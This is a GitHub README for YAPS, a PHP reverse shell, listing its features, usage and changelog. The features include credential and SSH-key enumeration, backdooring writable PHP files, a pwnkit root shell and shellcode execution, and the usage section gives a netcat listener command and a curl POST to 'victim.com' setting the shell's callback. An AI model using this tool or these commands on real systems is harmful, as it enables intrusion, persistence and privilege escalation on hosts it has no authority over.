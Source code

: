 # YAPS - **Y**et **A**nother **P**HP **S**hell

![image](https://user-images.githubusercontent.com/3837916/152913972-59b182f7-aa98-4b48-bb60-16dfdcc02fc3.png)


Yes, as the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there, but with some advantages. It is a single PHP file containing all its functions and you can control it via a simple TCP listener (e.g. `nc -lp 1337`).

In the current version (1.5), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs or have some suggestion for feature or improvement. =)


## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Does some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* Spawn an interactive reverse shell
* Duplicate as many connections as you want
* Auto update
* Infect PHP files with backdoors
* Auto reverse root shell via pwnkit (CVE-2021-4034)
* **[NEW] Send and execute shellcode**

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!interactive`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via post request (`curl -x POST -d "x=ip:port" victim.com/yaps.php`);
3. Open yaps.php on browser, curl it or run via CLI;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
* 3.2 You can run via CLI with `php yaps.php ip port`
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!duplicate - Spawn another YAPS connection`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!infect - Infect writable PHP files with backdoors`
* `!interactive - Spawn interactive reverse shells on other ports (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!pwnkit - Tries to exploit CVE-2021-4034 and spawn a root revere shell`
* `!shellcode - Send and run shellcode on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`

## Screenshots

<details>
  <summary>Click to expand screenshots section</summary>

### Current commands:
![commands](https://user-images.githubusercontent.com/3837916/153728054-82ab16ab-99b1-4113-863a-01f8fbeb6d04.png)

### Doing some recon:
![image](https://user-images.githubusercontent.com/3837916/127257433-778b1322-c82e-4857-897f-0f3f459dcb2b.png)

### Root reverse shell through CVE-2021-4034
![pwn](https://user-images.githubusercontent.com/3837916/152597200-267704b9-0d50-4bcd-a68f-3c8ea6c74c21.gif)
 
### Sending and running shellcode!
![shellcode](https://user-images.githubusercontent.com/3837916/153727126-a57c95a5-6447-4988-a57b-851b808df93e.gif)

### Spawning a interactive shell
![interactive](https://user-images.githubusercontent.com/3837916/153728966-ed70a9ff-29c4-435e-898f-6180df7ac048.gif)

### Duplicating a YAPS session
![duplicate](https://user-images.githubusercontent.com/3837916/153727468-dbbb6ef6-6461-4f2a-95dc-32940d797a39.gif)

### Poisoning PHP files
![infect](https://user-images.githubusercontent.com/3837916/127263363-e286357c-2be0-4890-8895-4bd5adadd3af.gif)

### Writing remote PHP code
![remotephp](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

### Password protected shell
![passprotected](https://user-images.githubusercontent.com/3837916/127260459-cc50203d-3ba6-408b-af0f-820756e9891d.png)

</details>


## Changelog

**v1.5 - 12/02/2022**
- Added `!shellcode` to receive and run an arbitrary shellcode 
- Improved `duplicate()` function (you can now a range of ports)
- Changed function name from `stabilize` to `interactive`
- Packed embeded codes to save space
- Fixed broken links
- Prepend "TERM=xterm" to all commands
- Minor improvements

**v1.4 - 04/02/2022**
- Added `!pwnkit` to exploit CVE-2021-4034 and spawn a root reverse shell
- Improved `verify_update()` function
- Minor improvements

**v1.3.1 - 01/08/2021**
- Bugs fixed

**v1.3 - 28/07/2021**
- Added `!infect` to infect PHP files with backdoors
- Changed `!stabilize` payload (bugs fixed)

**v1.2.2 - 18/07/2021**
- Changed 'update' function
- Changed 'connect' function
- Improved 'download' function
- Bugs fixed

**v1.2.1 - 17/07/2021**
- Bugs fixed

**v1.2 - 17/07/2021**
- Added `!duplicate` to spawn another shell
- Added update verification (`--update|-u`)
- Added CLI arguments (`--help|-h`)
- Added socket via arguments (`php yaps.php ip port`)
- Changed stabilize shell method (doesn't freeze anymore)
- Changed download method
- Changed connection method via POST (receives a single parameter)

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell

####  Arthepsy exploit for pwnkit
https://github.com/arthepsy/CVE-2021-4034/
